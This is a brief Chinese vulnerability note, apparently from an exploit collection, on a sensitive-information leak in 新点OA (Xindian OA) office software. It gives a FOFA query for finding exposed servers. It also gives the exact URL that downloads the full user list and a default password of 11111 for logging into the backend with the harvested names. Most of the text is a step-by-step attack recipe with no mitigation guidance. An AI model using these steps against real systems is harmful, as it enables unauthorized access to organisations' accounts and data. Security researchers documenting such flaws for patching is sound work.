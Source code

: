 # 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

```
新点OA
```

## FOFA

```
app="新点OA"
```

## 漏洞复现

构造的Url为

```plain
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![xindian](https://typora-1308934770.cos.ap-beijing.myqcloud.com/xindian.png)

通过获取的登录名登陆后台(默认密码11111)